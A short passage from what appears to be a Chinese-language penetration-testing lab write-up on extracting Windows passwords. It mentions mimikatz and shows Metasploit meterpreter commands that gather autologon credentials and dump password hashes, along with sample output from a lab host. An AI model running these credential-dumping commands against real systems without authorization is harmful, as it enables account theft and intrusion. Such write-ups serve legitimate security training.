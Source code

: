 [![](assets/1701827767-57578615ca6e42bd3e8ef767c98aa33d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191507-0cb4f366-9104-1.png)

### 获取密码：

#### 通过 mimikatz 获取用户名密码

#### 通过 msf 获取密码：

获取自动登录密码：

```bash
meterpreter > run windows/gather/credentials/windows_autologin
[] Running against STU1 on session 2 
[] The Host STU1 is not configured to have AutoLogon password
#在会话 2 上针对 STU1 运行 #主机 STU1 未配置为具有自动登录密码
```

[![](assets/1701827767-d4d14da12062335e5f2665b27041cd7f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191522-15aff22c-9104-1.png)

查询 hashdump：

```bash
run post/windows/gather/smart_hashdump
```

